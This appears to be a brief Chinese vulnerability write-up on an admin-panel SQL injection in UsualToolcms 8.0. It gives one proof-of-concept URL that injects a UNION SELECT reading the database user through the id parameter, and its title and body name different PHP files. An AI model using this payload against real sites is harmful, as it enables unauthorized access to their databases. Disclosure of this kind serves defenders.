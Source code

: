 UsualToolcms 8.0 a\_users\_level.php 后台int型注入
==================================================

一、漏洞简介
------------

后台a\_book\_category.php int型注入

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

该php文件下另外一个触发点：

![2.png](./resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId24.png)

### poc

    http://www.0-sec.org/cmsadmin/a_book_category.php?t=mon&id=-1%20union%20select%201,user(),3%23

![2.png](./resource/UsualToolcms8.0a_users_level.php后台int型注入/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
